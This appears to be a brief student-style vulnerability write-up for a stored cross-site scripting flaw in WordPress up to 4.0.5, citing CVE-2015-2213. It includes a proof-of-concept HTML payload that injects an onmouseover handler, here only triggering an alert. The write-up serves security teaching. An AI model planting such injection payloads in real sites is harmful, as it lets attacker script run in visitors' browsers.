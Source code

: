1. Write up
  There is a vulnerability in Wordpress where a user could us a specially formatted HTML tag to insert a XSS script into a post, to which the script is then activated running malicious code.(Example through mouse over)

2. Proof of Concept
  Place this script anywhere in the post or page.
  <a href="caption code=">]</a><a title="onmouseover=alert('WEEK 7 WEBSECURITY TEST') " >link</a>

3. Class of vulnerability
  CVE-2015-2213
  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2213

4. Vulnerable Versions
  Confirmed vulnerable: WordPress <= 4.0.5
